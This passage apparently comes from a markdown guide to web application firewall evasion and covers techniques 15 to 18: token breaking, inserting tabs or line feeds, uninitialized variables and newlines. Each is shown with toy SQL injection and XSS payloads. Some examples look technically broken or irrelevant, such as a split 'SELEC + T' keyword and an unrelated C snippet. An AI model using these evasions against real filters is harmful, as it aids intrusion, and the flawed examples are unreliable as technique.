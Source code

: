 ## 15. Token Breaker Technique

**How to do it:**  
Insert characters or elements that break the tokens the WAF uses to identify malicious patterns.

**Blocked original request:**
```bash
SELECT * FROM users WHERE id=1;
```

**Updated with token breaking:**
```bash
SELEC + T * FROM users WHERE id=1;
```

## 16. Tabs and Line Feed Technique

**How to do it:**  
Insert tabs (`\t`) or line feeds (`\n`) within payloads to disrupt the pattern matching of the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with tabs and line feeds:**
```bash
<script>\n\talert('XSS')</script>
```

## 17. Uninitialized Variable Technique

**How to do it:**  
Use uninitialized or rarely used variables in the payload to confuse the WAF’s detection algorithms.

**Blocked original request:**
```bash
int x = 1; return x;
```

**Updated with uninitialized variable:**
```bash
int x; return x = 1;
```

## 18. Newline Technique

**How to do it:**  
Introduce newline characters within a payload to break up malicious patterns the WAF is scanning for.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```
